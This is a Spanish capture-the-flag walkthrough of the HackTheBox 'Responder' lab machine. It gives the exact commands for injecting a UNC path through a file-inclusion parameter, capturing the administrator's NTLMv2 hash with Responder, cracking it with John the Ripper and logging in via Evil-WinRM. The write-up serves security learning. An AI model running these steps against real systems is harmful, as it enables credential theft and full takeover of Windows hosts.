










# HTB: Responder (Starting Point)

**Autor:** Alejandro Torres | Ingeniero de Sistemas de Telecomunicación

**Plataforma:** HackTheBox

**Dificultad:** Very Easy

---

## 1. Reconocimiento y Enumeración

Iniciamos la fase de reconocimiento interactuando con el servidor web alojado en la IP objetivo. Al intentar acceder de forma directa, detectamos que el servidor nos redirige automáticamente a un dominio específico: `unika.htb`. Esto es un claro indicador de que el servidor está utilizando **Virtual Hosting** (enrutamiento basado en nombres de dominio).

Para poder interactuar correctamente con la web, necesitamos resolver este dominio localmente. Para ello, editamos nuestro archivo `hosts` y añadimos la dirección IP apuntando a `unika.htb`.



Una vez que podemos visualizar la página, realizamos una petición de cabeceras mediante `curl -I` para identificar las tecnologías subyacentes del servidor.

```bash
curl -I [<http://10.129.160.153>](<http://10.129.160.153>)
```



Las cabeceras revelan que el servidor utiliza el lenguaje de programación **PHP** (`PHP/8.1.1`). Al navegar por la web, identificamos que el cambio de idioma se gestiona a través de la URL mediante un parámetro llamado **`page`** (ej. `index.php?page=french.html`). Este tipo de parámetros, si no están correctamente sanitizados, suelen ser un vector de entrada clásico para vulnerabilidades de inclusión de archivos.

## 2. Explotación (LFI, Forced Authentication y Cracking)

Nuestro objetivo es probar si el parámetro `page` es vulnerable a un Local File Inclusion (LFI). Mientras que un LFI clásico intentaría leer archivos locales del servidor (como `../../../../windows/system32/drivers/etc/hosts`), al estar frente a un entorno Windows, podemos intentar inyectar una ruta de red o **UNC Path** (ej. `//[Nuestra_IP]/share`).

Si el servidor procesa esta ruta externa, Windows intentará autenticarse automáticamente por la red usando el protocolo SMB (Server Message Block) y su mecanismo de autenticación **NTLM** (New Technology LAN Manager).

Para interceptar este intento de conexión, utilizaremos la herramienta **Responder**. Previamente, nos aseguramos de configurar `Responder.conf` para evitar conflictos de puertos si fuera necesario.



Iniciamos Responder escuchando en nuestra interfaz de red VPN (`tun0`) usando el flag `-I`.

```bash
sudo responder -I tun0
```



Con nuestro "envenenador" a la escucha, ejecutamos el ataque. Sin embargo, descubrimos que si enviamos la petición al dominio `unika.htb`, el servidor bloquea o no procesa la inclusión externa. Para hacer un *bypass* de esta restricción del Virtual Hosting, atacamos directamente a la IP del servidor pero forzando la cabecera `Host` mediante `curl`.

```bash
curl -H "Host: unika.htb" "[<http://10.129.160.153/index.php?page=//10.10.17.221/share>](<http://10.129.160.153/index.php?page=//10.10.17.221/share>)"
```



El servidor Windows interpreta la ruta UNC e intenta conectarse a nuestro equipo falso. Responder intercepta la petición y captura exitosamente el hash NTLMv2-SSP del usuario **Administrator**.



Guardamos el hash capturado en un archivo local usando el editor `nano`.



A continuación, procedemos a realizar un ataque de fuerza bruta offline o "cracking". Para ello, utilizamos **John The Ripper**, pasándole el archivo con el hash y el conocido diccionario `rockyou.txt`.

```bash
john --wordlist=rockyou.txt hash.txt
```



La herramienta logra romper el hash en segundos, revelando que la contraseña en texto plano del administrador es **`badminton`**.

## 3. Acceso Remoto y Extracción de la Flag

Teniendo credenciales válidas de administrador (`Administrator`:`badminton`), necesitamos una vía de entrada. Sabiendo que los entornos Windows corporativos suelen administrar los equipos remotamente, verificamos el puerto TCP **5985**, el cual corresponde al servicio **WinRM** (Windows Remote Management).

Utilizamos la herramienta `evil-winrm` para autenticarnos y obtener una consola interactiva de PowerShell con privilegios máximos.

```bash
evil-winrm -i 10.129.160.153 -u Administrator -p badminton
```



Al buscar la flag en el escritorio del usuario Administrator, no encontramos nada. Por tanto, procedemos a listar el directorio `C:\Users\` para ver qué otros perfiles existen en el sistema, descubriendo al usuario **`mike`**.

Navegamos hasta su escritorio y leemos el contenido del archivo de texto, obteniendo finalmente la flag que compromete por completo la máquina.



---

## Anexo A: Conceptos Clave de la Máquina

Durante la resolución de esta máquina, se han introducido y consolidado los siguientes conceptos:

- **Local File Inclusion (LFI) a Remote Path Injection:** Aunque el parámetro original permite leer archivos locales, en entornos Windows una falta de sanitización permite inyectar rutas UNC (`\\IP\recurso`). Esto hace que la aplicación web le pida al sistema operativo que resuelva esa ruta de red.
- **Forced Authentication (SMB / NTLM):** Cuando un sistema Windows intenta acceder a un recurso de red (como nuestra IP inyectada), de forma predeterminada intenta negociar la autenticación enviando el hash NTLMv2 del usuario que está ejecutando el servicio web, permitiendo a un atacante con herramientas como Responder capturar dicho hash.
- **WinRM (Windows Remote Management):** Es la implementación de Microsoft del protocolo WS-Management. Opera típicamente sobre los puertos TCP 5985 (HTTP) y 5986 (HTTPS). Si disponemos de credenciales válidas y el usuario pertenece al grupo "Remote Management Users" o "Administrators", podemos obtener una shell remota de PowerShell.

## Anexo B: Leyenda de Comandos y Referencia Rápida

| Comando / Herramienta | Sintaxis de Ejemplo | Descripción y Utilidad |
| --- | --- | --- |
| **cURL (Cabeceras)** | `curl -I [URL]` | Realiza una petición HTTP solicitando únicamente los encabezados (HEAD) para enumerar las versiones del servidor y tecnologías (ej. PHP). |
| **cURL (Host Header)** | `curl -H "Host: [dominio]" [URL]` | Permite inyectar o sobrescribir cabeceras HTTP específicas. Muy útil para hacer bypass a las validaciones de Virtual Hosting. |
| **Responder** | `sudo responder -I tun0` | Inicia un envenenador de protocolos LLMNR, NBT-NS y MDNS en la interfaz especificada (`-I`). Captura peticiones SMB y hashes NTLMv2. |
| **John The Ripper** | `john --wordlist=[diccionario] [archivo_hash]` | Herramienta de cracking offline. Compara millones de contraseñas de una *wordlist* cifrándolas dinámicamente hasta encontrar un hash que coincida con el capturado. |
| **Evil-WinRM** | `evil-winrm -i [IP] -u [usuario] -p [pass]` | Script escrito en Ruby que proporciona una shell interactiva remota contra sistemas Windows que tengan el puerto 5985 abierto. |